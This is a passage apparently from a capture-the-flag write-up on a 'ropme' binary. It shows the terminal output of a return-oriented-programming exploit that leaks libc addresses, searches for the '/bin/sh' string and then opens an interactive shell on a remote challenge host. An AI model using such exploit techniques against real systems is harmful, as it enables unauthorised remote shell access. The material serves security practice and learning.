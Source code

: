 ```bash
b"ROP me outside, how 'about dah?\n"
b'7f74d3aaf690'
[BASE] libc: 0x00007f74d3a40000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7f28f5066690'
[BASE] libc: 0x00007f28f4ff7000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'f7a690'
[BASE] libc: 0x0000000000f0b000
b"g\x7f\nROP me outside, how 'about dah?\n"
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7fd6c73da690'
[BASE] libc: 0x00007fd6c736b000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367
```

Fixed the offset.
```bash
python3 remote_exploit.py remote
[+] Opening connection to 159.65.54.14 on port 30989: Done
[*] '/home/kali/Downloads/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b"ROP me outside, how 'about dah?\n"
b'7fe120603690'
[BASE] libc: 0x00007fe120594000
b"ROP me outside, how 'about dah?\n"
[*] Switching to interactive mode
$ w
 14:25:01 up 2 days,  1:34,  1 user,  load average: 0.53, 0.33, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
```


[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399